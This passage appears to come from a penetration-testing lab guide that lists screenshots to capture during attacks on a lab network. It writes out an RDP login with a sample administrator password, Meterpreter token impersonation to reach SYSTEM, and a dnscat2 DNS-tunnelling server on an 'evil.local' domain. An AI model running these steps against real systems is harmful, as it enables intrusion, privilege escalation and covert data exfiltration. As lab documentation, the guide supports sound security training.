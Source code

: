 **How to capture:**
```bash
# On Kali
xfreerdp /u:administrator /p:Summer2024! /v:10.10.10.20
# Screenshot the RDP session window
```

### ATTACK 2: Privilege Escalation

#### 10. `10_meterpreter_session.png`
**What to capture:**
- Metasploit meterpreter session established
- `meterpreter >` prompt visible
- Output of `getuid` showing current user (before escalation)

**How to capture:**
```bash
# On Kali after getting meterpreter session
meterpreter > getuid
# Screenshot showing user context
```

#### 11. `11_token_impersonation.png`
**What to capture:**
- Incognito module loaded
- Output of `list_tokens -u` showing available tokens
- Command `impersonate_token "NT AUTHORITY\\SYSTEM"` executed

**How to capture:**
```bash
meterpreter > use incognito
meterpreter > list_tokens -u
meterpreter > impersonate_token "NT AUTHORITY\\SYSTEM"
# Screenshot all three commands and output
```

#### 12. `12_system_privileges_achieved.png`
**What to capture:**
- `getuid` now showing "NT AUTHORITY\SYSTEM"
- Proof of successful privilege escalation

**How to capture:**
```bash
meterpreter > getuid
# Screenshot showing SYSTEM level access
```

### ATTACK 3: DNS Tunneling

#### 13. `13_dnscat2_server.png`
**What to capture:**
- Kali terminal showing dnscat2 server running
- Command: `ruby dnscat2.rb --dns "domain=evil.local,host=10.10.10.100"`
- Server listening message
